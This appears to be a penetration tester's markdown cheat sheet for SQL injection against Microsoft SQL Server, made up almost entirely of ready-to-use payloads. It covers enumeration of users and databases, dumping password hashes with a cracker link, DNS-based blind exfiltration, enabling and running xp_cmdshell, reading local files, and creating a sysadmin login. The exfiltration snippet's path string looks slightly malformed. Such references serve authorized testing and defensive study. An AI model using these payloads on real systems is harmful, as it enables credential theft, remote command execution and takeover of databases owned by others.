 ```yaml
---
title: MSSQL Injection
tags: [recon, exploit, webvuln, sql, payload, injection]
tools:
notes:
---
```


# MSSQL Injection

---

## References

- [Oracle](http://pentestmonkey.net/blog/oracle-sql-injection-cheat-sheet/)
- [MSSQL](http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/)
- [MySQL](http://pentestmonkey.net/blog/mysql-sql-injection-cheat-sheet/)
- [PostgreSQL](http://pentestmonkey.net/blog/postgres-sql-injection-cheat-sheet/)
- [Ingres](http://pentestmonkey.net/blog/ingres-sql-injection-cheat-sheet/)
- [DB2](http://pentestmonkey.net/blog/db2-sql-injection-cheat-sheet/)
- [Informix](http://pentestmonkey.net/blog/informix-sql-injection-cheat-sheet/)
- [MS Access](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

---

## Enumeration

### Version
```sql
SELECT @@version;
```

### Current User
```sql
SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
```

### List Users
```sql
SELECT name FROM master..syslogins;
```

### Password Hashes (Privileged)
```sql
-- MSSQL 2000
SELECT name, password FROM master..sysxlogins;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins;

-- MSSQL 2005+
SELECT name, password_hash FROM master.sys.sql_logins;
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
```

### Crack Hashes
MSSQL 2000 & 2005 use SHA1 — try:  
https://labs.portcullis.co.uk/application/phrasen-drescher/

### Current Database
```sql
SELECT DB_NAME();
```

### List Databases
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); -- Where N = 0, 1, 2...
```

### List Tables
```sql
SELECT name FROM master..sysobjects WHERE xtype = 'U'; -- tables
SELECT name FROM master..sysobjects WHERE xtype = 'V'; -- views
```

### List Columns (in table)
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');
```

### Find Tables by Column Name
```sql
SELECT sysobjects.name AS tablename, syscolumns.name AS columnname
FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id
WHERE sysobjects.xtype = 'U' AND syscolumns.name LIKE '%PASSWORD%';
```

### Hostname/IP
```sql
SELECT HOST_NAME();
```

---

## Privilege Info

### Check Current Permissions
```sql
SELECT permission_name FROM fn_my_permissions(NULL, 'DATABASE');
SELECT permission_name FROM fn_my_permissions(NULL, 'SERVER');
SELECT permission_name FROM fn_my_permissions('master..syslogins', 'OBJECT');
SELECT permission_name FROM fn_my_permissions('sa', 'USER');
```

### Check Server Roles
```sql
SELECT is_srvrolemember('sysadmin');
SELECT is_srvrolemember('dbcreator');
-- repeat for bulkadmin, diskadmin, etc.
```

### List Users With Specific Roles
```sql
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
-- repeat for other roles...
```

---

## Functions and Tricks

### Select Nth Row
```sql
SELECT TOP 1 name
FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq
ORDER BY name DESC;
```

### Select Nth Char
```sql
SELECT SUBSTRING('abcd', 3, 1); -- returns 'c'
```

### Bitwise Ops
```sql
SELECT 6 & 2; -- returns 2
SELECT 6 & 1; -- returns 0
```

### ASCII/Char Conversion
```sql
SELECT CHAR(0x41); -- returns 'A'
SELECT ASCII('A'); -- returns 65
```

### Casting
```sql
SELECT CAST('1' AS int);
SELECT CAST(1 AS char);
```

### String Concat / Avoiding Quotes
```sql
SELECT 'A' + 'B'; -- AB
SELECT CHAR(65) + CHAR(66); -- AB
```

### Conditionals
```sql
IF (1=1) SELECT 1 ELSE SELECT 2;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END;
```

---

## Delays & Exfil

### Time Delay
```sql
WAITFOR DELAY '0:0:5';
```

### Make DNS Requests (Blind exfil)
```sql
DECLARE @host VARCHAR(800);
SELECT @host = name FROM master..syslogins;
EXEC('master..xp_getfiledetails "\' + @host + 'c$\boot.ini"');
```

---

## System-Level Access (Privileged)

### Command Execution
```sql
EXEC xp_cmdshell 'net user';

-- If disabled (2005+):
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Local File Access
```sql
CREATE TABLE mydata (line VARCHAR(8000));
BULK INSERT mydata FROM 'C:\boot.ini';
DROP TABLE mydata;
```

### Create Users / Grant Privileges
```sql
EXEC sp_addlogin 'user', 'pass';
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

### Drop User
```sql
EXEC sp_droplogin 'user';
```

### Locate DB Files
```sql
EXEC sp_helpdb master;
EXEC sp_helpdb pubs;
```

---

## Default/System DBs
- northwind
- model
- msdb
- pubs *(Not on SQL 2005)*
- tempdb